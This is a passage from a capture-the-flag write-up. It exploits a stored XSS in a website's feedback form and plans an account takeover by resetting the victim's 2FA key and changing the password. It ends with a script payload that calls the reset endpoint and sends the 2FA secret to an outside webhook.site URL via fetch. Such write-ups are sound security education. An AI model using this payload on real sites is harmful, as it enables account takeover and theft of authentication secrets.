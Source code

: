 So I created an account and saw that there was a **feedback** feature on the **settings page** to provide *constructive* feedback about the website. I thought my feedback was really *constructive* to see if I can inject HTML by providing an **image of my webhook** (I use [this website for my webhooks during CTFs](https://webhook.site/))!

![](images/twoforone_imginject1.png)

![](images/twoforone_imginject2.png)

Noice I can inject some HTML code, so I can probably execute some **inline Javascript and exploit a XSS vulnerability** (no Content Security Policy to stop me from doing that)! 

However, I could not simply exfiltrate my victims session cookie since the site sets the cookie as **HttpOnly**... I will need to use other features on the website to be able to takeover the victim's account. Fortunately on the settings page, we could **reset the 2FA key** and **change passwords and only needing the 2FA one time password (OTP)**! This means that the attack methodology to take over the account is:

1. Reset the victim's 2FA key and exfiltrate the new key.
2. Using the OTP from step 1, change the password for the victim's account and login as them.

To do this, I used the Javascript function `fetch` for sending exfiltrated data to my web hook again. My first payload resets the victim's 2FA and sends the response to my webhook I can save the OTP key on my 2FA authenticator app.

```html
<script>fetch("/reset2fa",{method:'post'}).then(r => r.text()).then((d) => {fetch("https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?otp="+btoa(d))});</script>
```

